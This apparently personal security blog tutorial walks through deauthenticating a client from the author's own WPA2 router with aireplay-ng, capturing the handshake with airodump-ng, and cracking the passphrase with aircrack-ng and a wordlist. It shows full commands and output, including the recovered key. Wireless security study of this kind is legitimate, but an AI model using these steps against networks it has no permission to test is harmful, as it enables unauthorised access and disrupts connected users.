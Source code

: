 ```yaml
---
layout: post
title: Wifi Hacking Part 1
subtitle: deauthentication & WPA handshake cracking
tags: [WIFI]
---
```


# Wifi Hacking Part 1

## WPA Handshake

A WPA handshake is a series of frames that are sent between a AP and a client to authenticate the client. These frame have the ability to be cracked using various tools. Once these frames are crack the WIFI password can be obtained for that network. I ran  `sudo airmon-ng start INTERFACE` before starting this attack chain

### Handshake Capture With De-Auth
One way to capture a WPA handshake is to DeAuth an already connected client. In the snip below I ran `airodump-ng` to target the bssid of my router `--bssid`, on channel 1 `-c 1`, and wrote it to a file called zon.cap `-w zon.cap`. The output shows that there is one client connected to the Zon AP and is sending frames.

```
sudo airodump-ng wlan0mon --bssid 30:46:9A:A6:34:76 -c 1 -w zon.cap

CH  1 ][ Elapsed: 2 mins ][ 2023-04-28 21:45 ]

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 30:46:9A:A6:34:76  -16 100     1357     1511    0   1  130   WPA2 CCMP   PSK  Zon                                                        

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 30:46:9A:A6:34:76  FC:77:74:8E:3F:B4  -26   24e- 6e     0     1622  PMKID
```

One option to get the WPA handshake would be to wait until the client disconnects and then reconnects. This could happen if the devices leaves the AP's range and then comes back into its range, or the device reboot's, or really anything that could cause a WPA handshake. Another option is to us `aireplay-ng` and send some DeAuth frames to tell the AP to disconnect from the client. To do this, continue to run the  `airodump-ng` capture and send a DeAuth frame. In the snip below that is exactly what happens. Running `aireplay-ng` sends a DeAuth frame with `-0 1` to my access point `-a 30:46:9A:A6:34:76`, with the connected host `-c FC:77:74:8E:3F:B4` on the wlan0mon interface.

```
┌──(zonifer㉿linux)-[~]
└─$ sudo aireplay-ng -0 1 -a 30:46:9A:A6:34:76 -c FC:77:74:8E:3F:B4 wlan0mon
21:44:50  Waiting for beacon frame (BSSID: 30:46:9A:A6:34:76) on channel 1
21:44:50  Sending 64 directed DeAuth (code 7). STMAC: [FC:77:74:8E:3F:B4] [ 0|42 ACKs]
```

Back on the `airodump-ng` output up at the top `WPA handshake: 30:46:9A:A6:34:76 ` is new. Signifying that a new handshake has occurred. I have successfuly de-authenticated the host and when it tried to connect back captured the handshake.

```
CH  1 ][ Elapsed: 2 mins ][ 2023-04-28 21:45 ][ **WPA handshake: 30:46:9A:A6:34:76** 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 30:46:9A:A6:34:76  -16 100     1357     1511    0   1  130   WPA2 CCMP   PSK  Zon                                                        

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 30:46:9A:A6:34:76  FC:77:74:8E:3F:B4  -26   24e- 6e     0     1622  PMKID  
```

Sticking with the `air` suite I'll use `aircrack-ng`, a custom word list `-w wordlist.txt` (a small rockyou), an essid of Zon `-e Zon`, a bssid of 30:46:9A:A6:34:76 `-b 30:46:9A:A6:34:76`, on the recent capture called zon.cap-01.cap `zon.cap-01.cap` In just a short amount of time this is cracked and the wifi password is found. 

```
sudo aircrack-ng -w wordlist.txt -e Zon -b 30:46:9A:A6:34:76 zon.cap-01.cap

                               Aircrack-ng 1.6 

      [00:00:00] 8/102 keys tested (100.82 k/s) 

      Time left: 0 seconds                                       7.84%

                           KEY FOUND! [ Zonifer1 ]


      Master Key     : 8C 29 D8 06 12 FE 70 86 7D 7E 48 6F 09 9C 6B BC 
                       14 11 C0 96 EE DA 4B FC B4 65 DA 6E AE 08 B5 FC 

      Transient Key  : 1D F2 27 91 A5 35 41 CE FD 8B 69 C5 26 75 3A 07 
                       2A 79 8E 77 0C 01 CB 20 29 FB 0B 1B C8 3A 42 96 
                       64 F1 16 2A 83 20 8F 75 63 A8 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : BB 06 27 45 F6 9E 24 3F 76 AF 24 93 6A 3C 61 51 
```
